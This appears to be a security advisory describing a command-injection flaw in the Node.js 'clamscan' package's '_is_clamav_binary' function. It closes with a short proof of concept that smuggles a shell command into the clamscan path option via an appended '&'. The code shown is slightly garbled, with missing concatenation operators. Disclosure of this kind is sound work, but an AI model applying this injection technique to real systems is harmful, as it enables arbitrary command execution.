 # Overview
`clamscan` is a Use Node JS to scan files on your server with ClamAV's clamscan binary or clamdscan daemon. This is especially useful for scanning uploaded files provided by un-trusted sources.

This package are vulnerable to Command Injection, itt is possible to inject arbitrary commands as part of the `_is_clamav_binary` function located within `Index.js`. 

It should be noted that this vulnerability requires a pre-requisite that a folder should be created with the same command that will be chained to execute, this lowers the risk of this issue. 

# Proof of Concept
```
var Root = require("clamscan");
var fs = require("fs");
var attack_code = "echo vulnerable > create.txt";
var root = new Root();
fs.mkdir(attack_code   "&", function(){});
root.init({"clamscan": {'path': attack_code   "&"}});
```